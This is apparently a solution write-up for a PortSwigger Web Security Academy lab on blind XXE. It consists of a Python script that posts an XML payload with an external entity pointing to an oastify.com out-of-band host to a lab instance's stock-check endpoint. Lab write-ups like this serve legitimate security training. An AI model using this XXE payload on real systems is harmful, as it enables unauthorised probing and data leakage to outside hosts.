 # Lab: Blind XXE with out-of-band interaction

Link to lab: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

## Solution
```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

headers = {
    'Host': '0a29008504040ad0c25425cc00f9008e.web-security-academy.net',
    'Content-Type': 'application/xml',
}

data = '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://yikfn9un5au63ryrq5f0jfe1lsrjf93y.oastify.com"> ]><stockCheck><productId>&xxe;#1</productId><storeId>1</storeId></stockCheck>'

response = requests.post(
    'https://0a29008504040ad0c25425cc00f9008e.web-security-academy.net/product/stock',
    headers=headers,
    data=data,
    verify=False,
)

print(response.text)
```
